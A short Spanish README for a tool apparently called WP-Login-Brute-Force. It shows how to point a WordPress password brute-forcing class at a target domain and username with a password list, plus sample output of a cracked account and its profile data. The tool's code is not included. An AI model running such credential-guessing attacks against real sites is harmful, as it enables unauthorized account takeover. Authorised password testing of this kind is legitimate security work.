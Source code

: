 # WP-Login-Brute-Force


# Se Crea una Instancia WordPressBruteForce
Se incluye el dominio a realizar la prueba y el nombre de usuario<br>
<b>sitio_objetivo = WordPressBruteForce(wp_domain='example.com', wp_username='username')</b>

"El nombre de usuario debe ser identificado con anterioridad,
el nombre de dominio debe incluir http:// o https://"

# Realiza un ataque de fuerza bruta
<b>sitio_objetivo.brute_force_attack('password.txt')</b>

"El archivo password debe contener una lista de potenciales contraseñas,
no debe llevar comas, y puede ser tan grande como se desee"

RESULTADO EJEMPLO:

Contraseña para "usuario1" Incorrecta.<br>
Autenticación -> "usuario2" | Password: "123456"<br>
Nombre de usuario: usuario2<br>
Nombre: Usuario<br>
Apellido: 2<br>
Correo electrónico: admin@example.com<br>
ID de usuario: 1<br>


Perfil: https://www.linkedin.com/in/wikitech/<br>
Blog: https://www.exploit505.blogspot.com
